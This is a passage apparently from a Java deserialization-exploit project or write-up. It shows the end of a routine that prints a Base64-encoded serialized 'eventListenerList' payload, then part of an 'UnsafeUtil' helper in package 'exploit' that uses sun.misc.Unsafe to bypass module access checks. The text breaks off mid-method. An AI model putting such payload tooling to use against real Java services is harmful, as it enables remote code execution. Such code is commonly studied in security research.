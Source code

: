 ```java

        System.out.println(Base64.getEncoder().encodeToString(SerializeUtil.serialize(eventListenerList)));
        SerializeUtil.test(eventListenerList);
    }
}
```

UnsafeUtil

```java
package exploit;

import sun.misc.Unsafe;

import java.lang.reflect.Field;

public class UnsafeUtil {
    private static final Unsafe unsafe;

    static {
        try {
            Class<?> unsafeClass = Class.forName("sun.misc.Unsafe");
            Field theUnsafeField = unsafeClass.getDeclaredField("theUnsafe");
            theUnsafeField.setAccessible(true);
            unsafe = (Unsafe) theUnsafeField.get(null);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static void patchModule(Class clazz) throws Exception {
        Module baseModule = Object.class.getModule();
        setFieldValue(clazz, "module", baseModule);
    }

    public static Object getFieldValue(Object obj, String name) throws Exception {
        return getFieldValue(obj.getClass(), obj, name);
    }

    public static Object getFieldValue(Class<?> clazz, Object obj, String name) throws Exception {
        Field f = clazz.getDeclaredField(name);
        long offset;

        if (obj == null) {
            offset = unsafe.staticFieldOffset(f);
        } else {
            offset = unsafe.objectFieldOffset(f);
        }

        return unsafe.getObject(obj, offset);
    }

    public static void setFieldValue(Object obj, String name, Object val) throws Exception {
        setFieldValue(obj.getClass(), obj, name, val);
    }

    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {
        Field f = clazz.getDeclaredField(name);
        long offset;

        if (obj == null) {
            offset = unsafe.staticFieldOffset(f);
```